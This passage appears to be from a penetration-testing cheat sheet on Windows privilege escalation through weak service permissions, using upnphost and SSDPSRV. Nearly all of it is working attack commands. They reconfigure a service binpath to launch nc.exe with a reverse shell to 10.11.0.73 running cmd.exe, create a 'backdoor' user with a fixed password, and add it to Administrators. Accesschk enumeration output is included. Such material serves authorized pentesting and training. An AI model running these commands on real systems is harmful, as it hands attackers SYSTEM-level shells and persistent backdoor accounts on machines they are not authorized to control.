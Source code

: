 ```powershell
# NOTE: spaces are mandatory for this exploit to work !
sc config upnphost binpath= "C:\Inetpub\wwwroot\nc.exe 10.11.0.73 4343 -e C:\WINDOWS\System32\cmd.exe"
sc config upnphost obj= ".\LocalSystem" password= ""
sc qc upnphost
sc config upnphost depend= ""
net start upnphost
```

If it fails because of a missing dependency, try the following commands.

```powershell
sc config SSDPSRV start=auto
net start SSDPSRV
net stop upnphost
net start upnphost

sc config upnphost depend=""
```

Using
[`accesschk`](https://web.archive.org/web/20080530012252/http://live.sysinternals.com/accesschk.exe)
from Sysinternals or
[accesschk-XP.exe - github.com/phackt](https://github.com/phackt/pentest/blob/master/privesc/windows/accesschk-XP.exe)

```powershell
$ accesschk.exe -uwcqv "Authenticated Users" * /accepteula
RW SSDPSRV
        SERVICE_ALL_ACCESS
RW upnphost
        SERVICE_ALL_ACCESS

$ accesschk.exe -ucqv upnphost
upnphost
  RW NT AUTHORITY\SYSTEM
        SERVICE_ALL_ACCESS
  RW BUILTIN\Administrators
        SERVICE_ALL_ACCESS
  RW NT AUTHORITY\Authenticated Users
        SERVICE_ALL_ACCESS
  RW BUILTIN\Power Users
        SERVICE_ALL_ACCESS

$ sc config <vuln-service> binpath="net user backdoor backdoor123 /add"
$ sc config <vuln-service> binpath= "C:\nc.exe -nv 127.0.0.1 9988 -e C:\WINDOWS\System32\cmd.exe"
$ sc stop <vuln-service>
$ sc start <vuln-service>
$ sc config <vuln-service> binpath="net localgroup Administrators backdoor /add"
$ sc stop <vuln-service>
$ sc start <vuln-service>
```
